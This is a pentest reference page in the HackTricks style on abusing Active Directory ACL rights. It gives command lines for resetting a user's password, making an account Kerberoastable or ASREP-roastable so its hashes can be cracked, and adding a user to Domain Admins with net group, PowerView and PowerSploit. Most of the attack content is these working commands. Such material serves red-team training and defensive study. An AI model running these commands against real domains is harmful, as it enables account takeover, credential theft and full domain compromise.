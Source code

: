 # Abusing Active Directory ACLs/ACEs

{{#include ../../../banners/hacktricks-training.md}}

**This page is mostly a summary of the techniques from** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) **and** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges)**. For more details, check the original articles.**

## BadSuccesor

{{#ref}}
BadSuccesor.md
{{#endref}}

## **GenericAll Rights on User**

This privilege grants an attacker full control over a target user account. Once `GenericAll` rights are confirmed using the `Get-ObjectAcl` command, an attacker can:

- **Change the Target's Password**: Using `net user <username> <password> /domain`, the attacker can reset the user's password.
- **Targeted Kerberoasting**: Assign an SPN to the user's account to make it kerberoastable, then use Rubeus and targetedKerberoast.py to extract and attempt to crack the ticket-granting ticket (TGT) hashes.

```bash
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:<username> /nowrap
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```

- **Targeted ASREPRoasting**: Disable pre-authentication for the user, making their account vulnerable to ASREPRoasting.

```bash
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

## **GenericAll Rights on Group**

This privilege allows an attacker to manipulate group memberships if they have `GenericAll` rights on a group like `Domain Admins`. After identifying the group's distinguished name with `Get-NetGroup`, the attacker can:

- **Add Themselves to the Domain Admins Group**: This can be done via direct commands or using modules like Active Directory or PowerSploit.

```bash
net group "domain admins" spotless /add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
